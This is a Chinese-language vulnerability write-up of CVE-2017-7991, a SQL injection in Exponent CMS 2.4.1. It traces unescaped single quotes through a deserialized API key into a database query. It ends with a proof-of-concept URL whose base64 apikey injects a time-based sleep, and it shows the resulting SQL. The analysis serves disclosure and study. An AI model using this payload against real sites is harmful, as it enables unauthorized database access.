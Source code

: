 ```yaml
---
title: '[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析'
date: 2017-05-12 07:42:07
tags: [代码审计,SQL注入,漏洞分析]
categories: Web安全
---
```


Exponent CMS是一款开源的CMS，其2.4.1版中存在sql注入
本文首发于：[[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析](https://chybeta.github.io/2017/05/12/CVE-2017-7991-Exponent-CMS-2-4-1-SQL-Injection%E5%88%86%E6%9E%90/)

<!-- more -->
# 漏洞
注入点在 /framework/modules/eaas/controllers/eaasController.php 中。如下：

```php
public function api() {
	if (empty($this->params['apikey'])) {
		$_REQUEST['apikey'] = true;  // set this to force an ajax reply
		$ar = new expAjaxReply(550, 'Permission Denied', 'You need an API key in order to access Exponent as a Service', null);
		$ar->send();  //FIXME this doesn't seem to work correctly in this scenario
	} else {
		$key = expUnserialize(base64_decode(urldecode($this->params['apikey'])));
		$cfg = new expConfig($key);
		$this->config = $cfg->config;
		if(empty($cfg->id)) {
			$ar = new expAjaxReply(550, 'Permission Denied', 'Incorrect API key or Exponent as a Service module configuration missing', null);
			$ar->send();
		} else {
			if (!empty($this->params['get'])) {
				$this->handleRequest();
			} else {
				$ar = new expAjaxReply(200, 'ok', 'Your API key is working, no data requested', null);
				$ar->send();
			}
		}
	}
}
```

api()中，先检测参数`apikey`　是否为空，若不为空，则进入else分支。在分支中，先对参数`apikey`进行一次`urldecode`,接着进行 `base64_decode`,最后进行一次反序列化`expUnserialize`，在`expUnserialize`中存在一次小小的过滤：
```php
function expUnserialize($serial_str) {
    if ($serial_str === 'Array') return null;  // empty array string??
    if (is_array($serial_str) || is_object($serial_str)) return $serial_str;  // already unserialized
//    $out1 = @preg_replace('!s:(\d+):"(.*?)";!se', "'s:'.strlen('$2').':\"$2\";'", $serial_str );
    $out = preg_replace_callback(
        '!s:(\d+):"(.*?)";!s',
        create_function ('$m',
            '$m_new = str_replace(\'"\',\'\"\',$m[2]);
            return "s:".strlen($m_new).\':"\'.$m_new.\'";\';'
        ),
        $serial_str );
//    if ($out1 !== $out) {
//        eDebug('problem:<br>'.$out.'<br>'.$out1);
//    }
```

它会把 经过`base64_decode`后的`$apikey` 中的双引号加上斜杠。但是对于单引号，它没有进行处理。在进行`expUnserialize`之后，赋值给`$key`，并在之后实例化一个 `expConfig`对象。`expConfig`部分代码如下：

```php
class expConfig extends expRecord {
	protected $table = 'expConfigs';

	function __construct($params=null) {
		global $db;

        if (!is_array($params)) {
            $this->location_data = serialize($params);
            parent::__construct($db->selectValue($this->table, 'id', "location_data='".$this->location_data."'"));
        } else {
            parent::__construct($params);
        }
	....
```
在 framysqli\core\subsystems\database\mysqli.php 中，可以看到关于`selectValue`的定义：

```php
function selectValue($table, $col, $where=null) {
	if ($where == null)
		$where = "1";
	$sql = "SELECT " . $col . " FROM `" . $this->prefix . "$table` WHERE $where LIMIT 0,1";
	$res = @mysqli_query($this->connection, $sql);

	if ($res == null)
		return null;
	$obj = mysqli_fetch_object($res);
	if (is_object($obj)) {
		return $obj->$col;
	} else {
		return null;
	}
}
```

可以看到，在检查完`$params`是否是数组后，将我们传入的`$params`序列化后直接插入到了数据库查询语句中,未作任何过滤和检测。加上之前并未对单引号进行处理，因此我们可以利用单引号，对 `location_data='".$this->location_data."'` 中的单引号进行闭合。


# POC

```
http://localhost:2500/exponent241/index.php
?module=eaas
&action=api
&apikey=czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7
```
其中 base64_decode("czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7") = s:16:"aaa'or "'sleep(2)#

查看 mysql.log ，可以发现成功注入。
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170512/sqlinject/1.jpg?raw=true)
运行的 sql语句 为：

```mysql
SELECT id FROM `exponent_expConfigs` WHERE location_data='s:19:"aaa'or \"'sleep(2)#";' LIMIT 0,1
```
可以看到单引号被成功闭合。
